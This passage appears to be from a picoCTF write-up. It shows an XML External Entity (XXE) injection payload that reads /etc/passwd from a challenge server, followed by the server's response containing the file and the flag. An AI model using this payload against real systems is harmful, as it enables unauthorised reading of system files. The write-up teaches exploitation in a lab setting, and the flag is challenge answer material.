 The goal is to read the `/etc/passwd` file. In order to do that we'll perform an XML Injection attack AKA **XML External Entity (XXE)** injection attack.

Here is the request payload

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```

And here is the response

```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}

```

And the flag is in the file.

## More SQLi

![](assets/ctf_more_sqli.png)
